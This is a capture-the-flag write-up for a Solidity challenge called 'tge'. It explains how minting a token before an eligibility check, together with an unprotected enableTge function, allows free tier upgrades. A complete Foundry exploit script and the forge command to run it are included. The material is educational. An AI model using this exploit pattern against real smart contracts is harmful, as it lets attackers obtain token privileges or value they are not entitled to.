

# C2C CTF Task : tge

### Introduction 



> Looking at the `Setup.sol` contract, I saw that I only start with 15 TOK tokens. Since Tier 1 costs exactly 15 tokens to mint, I could easily buy into the first tier, but then I would be completely broke. I knew there had to be a way to get Tiers 2 and 3 for free to pass the `isSolved()` check.

```sol
    function isSolved() external view returns (bool) {
        require(tge.userTiers(player) == 3, "not yet");
        return true;
    }
```

### The Core Vulnerability

```sol
    function upgrade(uint256 tier) external {
        require(tier <= 3 && tier >= 2);
        require(userTiers[msg.sender]+1 == tier);
        require(tgeActivated && isTgePeriod);

        _burn(msg.sender, tier-1, 1);
        _mint(msg.sender, tier, 1);

        require(preTGEBalance[msg.sender][tier] > preTGESupply[tier], "not eligible");
        userTiers[msg.sender] = tier;
    }
```

> I started reading through `TGE.sol` and noticed something really scuffed in the `upgrade` function. The contract calls `_mint()` to give you the new tier token *before* it actually checks if you are eligible using `require(preTGEBalance[msg.sender][tier] > preTGESupply[tier])`.

### The Snapshot Trick

```sol
require(preTGEBalance[msg.sender][tier] > preTGESupply[tier], "not eligible");
```

> Because `_mint` happens first, if the TGE period is active, it updates my `preTGEBalance` to 1. This means as long as the global `preTGESupply` snapshot for Tiers 2 and 3 is exactly 0, the math check becomes `1 > 0`, which completely bypasses the eligibility requirement!

### The Obstacle & Access Control Flaw

```sol
    function enableTge(bool _tge) public {
        tge.setTgePeriod(_tge);
    }
```

> To make the upgrade function work, the contract requires both `isTgePeriod` and `tgeActivated` to be true. `tgeActivated` only turns true after a snapshot is taken, which requires turning the TGE period off. I originally thought I had to wait for a server admin to do this, but then I looked at `Setup.sol` again and realized `enableTge(bool)` is a `public` function with zero access control! Anyone can call it.

### The Execution / Exploit Path

```sol
        console.log("2. Manipulating TGE State...");
        setup.enableTge(false); 
        setup.enableTge(true);  
```

> I wrote a quick Foundry script to chain it all together. First, I bought Tier 1 with my 15 tokens. Then, I called `setup.enableTge(false)` to force a snapshot where the higher tier supplies were 0, and immediately called `setup.enableTge(true)` to reactivate the upgrade window. Finally, I just called `upgrade(2)` and `upgrade(3)`, which succeeded for free thanks to the logic flaw. After the script finished, I just clicked the Flag button on the dashboard to verify my Tier 3 status.

**Exploit.s.sol**
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Script.sol";

interface ISetup {
    function tge() external view returns (address);
    function token() external view returns (address);
    function enableTge(bool) external;
    function isSolved() external view returns (bool);
}

interface ITGE {
    function buy() external;
    function upgrade(uint256) external;
}

interface IToken {
    function approve(address, uint256) external returns (bool);
}

contract Exploit is Script {
    uint256 constant PRIVKEY = 0xPRIVATE_KEY;
    address constant SETUP_ADDR = 0xSETUP_ADDRESS;

    function run() external {
        vm.startBroadcast(PRIVKEY);

        ISetup setup = ISetup(SETUP_ADDR);
        ITGE tge = ITGE(setup.tge());
        IToken token = IToken(setup.token());

        token.approve(address(tge), 15);
        tge.buy();

        setup.enableTge(false);
        setup.enableTge(true);

        tge.upgrade(2);
        tge.upgrade(3);

        setup.isSolved();

        vm.stopBroadcast();
    }
}

```
And Then Execute This File with Forge
```bash
forge script script/Exploit.s.sol --rpc-url "<NEW_RPC_URL>" --broadcast
```

**NOTE : DUE TO SERVER ERROR, I COULD NOT BE ABLE TO SHOWCASE THE SCRIPT AND GET THE FLAG**

